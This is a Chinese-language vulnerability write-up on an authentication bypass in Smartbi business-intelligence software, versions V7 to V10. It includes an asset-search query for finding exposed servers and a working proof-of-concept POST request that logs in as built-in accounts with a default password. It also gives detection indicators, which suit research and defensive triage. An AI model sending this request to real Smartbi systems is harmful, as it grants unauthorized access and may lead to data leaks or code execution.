 # Smartbi商业智能软件绕过登录漏洞

## 漏洞描述

Smartbi大数据分析产品融合BI定义的所有阶段，对接各种业务数据库、数据仓库和大数据分析平台，进行加工处理、分析挖掘和可视化展现；满足所有用户的各种数据分析应用需求，如大数据分析、可视化分析、探索式分析、复杂报表、应用分享等等。

Smartbi在安装时会内置几个用户，在使用特定接口时，可绕过用户身份认证机制获取其身份凭证，随后可使用获取的身份凭证调用后台接口，可能导致敏感信息泄露和代码执行。

## 影响范围

V7 <= Smartbi <= V10

网络空间测绘语法：app="SMARTBI"

## 漏洞复现

验证漏洞是否存在：<http://your-ip/smartbi/vision/RMIServlet>

如果返回信息中包含尚未登录或者会话已超时，则证明存在该漏洞

POC

```
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
 
className=UserService&methodName=loginFromDB&params=["system","0a"]
```

请求体中传入的三个参数

className：必须指定UserService类名

methodName：该类调用的方法loginFromDB

params：其中的第一个参数是内置的三个用户名（public、service、system）可随机构造，第二个参数是三个账号默认的密文密码(默认值为0a)

## 研判分析

总体上来说该漏洞研判起来较为简单。

- 请求方法和请求路径，'POST'、'/smartbi/vision/RMIServlet'
- 请求内容，className，public，service，system，0a
- 响应状态码200，响应内容"result:true"

## 参考链接

Smartbi内置用户登陆绕过漏洞复现

<https://blog.csdn.net/qq_41904294/article/details/131293172>
